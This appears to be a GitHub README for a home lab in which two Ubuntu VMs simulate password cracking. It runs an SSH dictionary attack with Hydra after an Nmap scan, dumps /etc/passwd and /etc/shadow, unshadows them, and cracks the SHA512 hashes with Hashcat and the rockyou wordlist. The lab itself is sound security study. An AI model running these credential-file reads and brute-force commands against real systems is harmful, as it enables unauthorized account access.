








# Password Cracker 

This project aims to use the tools Hydra and Hashcat to simulate a password cracking attack 

## HYDRA ON SSH

### STEP 1: SETUP UP 2 UBUNTU VMs

#### SERVER 1 (Attacker)

Install Hydra: `sudo apt update` `sudo apt install hydra -y`

Install Nmap: `sudo apt install nmap -y`

#### SERVER 2 (Target)

Install SSH: `sudo apt update` `sudo apt install openssh-server -y`

### STEP 2: CREATE TEST USER WITH WEAK PASSWORD (In Target)

Command used: `sudo  adduser adminuser`
** Password was set to: password123 **

### STEP 3: START SSH SERVER

Command used: `sudo systemctl start ssh` 

### STEP 4: FIND TARGET VM'S IP ADDRESS (In Attacker)

Find subnet of VM: `ip a`

The  subnet was 192.168.56.101/24

Scan subnet with Nmap: `nmap -sn 192.168.56.101/24  `

Scan IPs for open ports: `nmap -p 22 --open `

 
### STEP 5: CREATE A WORDLIST FILE

Command used: `touch password.txt`

The file contained a list of possible passwords

### STEP 6: LAUNCH HYDRA ATTACK

Command used: `hydra -l adminuser -P password.txt ssh://`

## USING HASHCAT

### STEP 1: DOWNLOADING TOOLS

Download Hashcat: `sudo apt install hashcat`

Download John the Ripper: `sudo apt install john`

Download wordlist from github: `wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt`

### STEP 2: CREATE A FAKE USER

Command used: `sudo adduser admin456`

Password was set to `christopher` which is in the rockyou.txt file

### STEP 3: EXTRACT HASH FILES

Extract user account information

Command used: `sudo cat /etc/passwd > useracct.txt`

Extract real password hashes 

Command used: `sudo cat /etc/shadow > hashes.txt`

Use unshadow to combine both into a usable format of username:hash

Command used: `unshadow useracct.txt hashes.txt > final.txt`

### STEP 4: RUN HASHCAT

Command used `hashcat -m 1800 -a 0 -o password.txt final.txt rockyou.txt`

### STEP 5: OPEN PASSWORD FILE

Command used: `nano password.txt`

Password Christopher identified succesful use of hashcat
 

**NOTE:** hashcat cannot crack Yescrypt hashes which are used by most updated ubuntu systems so I had to change my system configurations temporarily and change the crypt method for the same password
Command used: `echo "admin456:christopher" | sudo chpasswd --crypt-method=SHA512`

  
